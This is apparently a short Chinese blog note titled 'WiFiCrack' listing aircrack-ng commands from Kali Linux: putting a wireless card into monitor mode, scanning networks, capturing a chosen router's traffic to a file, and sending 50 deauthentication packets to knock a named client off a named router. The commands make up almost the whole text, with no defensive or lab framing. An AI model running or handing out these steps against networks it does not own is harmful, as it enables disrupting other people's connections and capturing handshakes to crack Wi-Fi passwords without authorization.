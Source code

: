 ```yaml
---
title: WiFiCrack
date: 2019-10-19 19:00:53
categories: 食用笔记
tags: 
- Aircrack-ng
- Kali Linux
---
```


{% noteblock quote cyan %}

WiFiCrack笔记。

{% endnoteblock %}

<!-- more -->

## 开启监听

```shell
airmon-ng start wlan0
```

## 扫描信号

```shell
airodump-ng wlan0mon
```

## 选定Wi-Fi监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w指定生成的文件名 -c指定信道 --bssid指定路由器的MAC地址
```

## 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0指定发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址 
```